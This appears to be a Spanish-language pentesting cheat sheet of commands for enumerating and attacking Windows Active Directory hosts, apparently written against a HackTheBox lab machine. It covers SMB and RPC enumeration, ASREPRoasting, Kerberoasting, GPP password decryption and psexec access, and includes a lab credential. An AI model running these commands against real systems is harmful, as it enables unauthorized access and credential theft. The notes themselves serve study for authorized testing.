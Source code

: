 ## Windows

El objetivo de esta página es documentar los comandos mas utilizados en enumeración y explotaciónde máquinas Windows.

### crackmapexek

Para ver info de un equipo sin credenciales:

<pre>
crackmapexec smb 10.10.10.100 
</pre>

Para ver recursos compartidos sin credenciales:

<pre>
  crackmapexec smb 10.10.10.100  --shares
</pre>

Para conectar con credenciales:

<pre>
  crackmapexec smb 10.10.10.100  -u 'usuario' -p 'password' --shares
</pre>

### smbmap

Para conectar a un host sin credenciales, nos lista unidades sin credenciales:

<pre>
smbmap -H 10.10.10.1000
</pre>

Para conectar ver lo que tiene un recurso, paramero -r:

<pre>
smbmap -H 10.10.10.1000 -r Replication
</pre>

Para descargarnos algo, parámetro --download

<pre>
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
</pre>

Con credenciales:

<pre>
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups
</pre>

### smbclient

Visualizar sin credenciales:

<pre>
smbclient -L //10.10.10.100/Replication -N

</pre>

### rpcclient

Una vez que tenemos credencales nos podemos conectar co  **rpcclient**:

<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100
</pre>

Tambien es posible a veces conectarse con sesion null:
<pre>
rpcclient -U "" 10.10.10.100 -N
</pre>

Con credenciales, listamos usuarios del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomusers'
</pre>


Con credenciales, listamos grupos del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomgroups'
</pre>


Con credenciales, usuarios de un grupo. Pasamos el id de grupo:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygroupmem 0x200'
</pre>



Con credenciales, Info de un  usuario por su id:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'queryguser 0x1f4'
</pre>

Con credenciales, ver las desripciones de todos los usuarios:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygdispinfo'
</pre>

### rpcenum

Herramienta de s4vitar para enumerar usuarios y grupos de un dominio. Revisar m´áquina Active de HTB para ver como configurarla.

### ASREPRoast Attack

Cuando solo se dispone de usuarios, sin credenciales, **y estando en un entorno de active directory** se puede intentar un ASREPRoast Attack con GetNPUsers:
<pre>
GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 
</pre>

### Kerbrute

Si está el puerto de kerberos aberto, el 88, se puede usar kerbrute para enumerar teniendo un diccionario.
<pre>
kerbrute userenum -dc 10.10.10.100 -d active.htb /usr/share/wordlists/SecList/Usernames/Names/names.txt
</pre>

### GetUsersSPNs

Si no es Kerberoasteable podemos usar esta opción para enumerar.

<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA
</pre>

Si hay resultado se puede obtener un TGS, (Ticket Garanting Service). El hash se puede intentar romper con john


<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA -request
</pre>


### PSEXEC

Si con **crackmapexec smb** nos aparece **Pwned** podemos obtener acceso con psexec:

<pre>
psexec.py active.htb/Administrator:CONTRASEÑA@10.10.10.100 cmd.exe
</pre>

## TRUCOS

### Enumerar SYSVOL

Si se puede enumerar SYSVOL hay que buscar el ficehro Groups.txt, (Policies/xxxx/MACHINE/Preferences/Group).
Como microsoft publicó la clave de desencriptación se puede utilizar **gpp-decript**.

<pre>
gpp-decrypt 'CONTRASEÑAEMCRIPTADA'
</pre>

### Sincronizar reloj

Para ataques ASREPRoast o kerbrute hay que sincronizar el reloj con el de la maquina active directory:

<pre>
ntpdate 10.10.10.100
</pre>

Con **date -s** podemos volver a dejar la fecha igual. Investigar como.
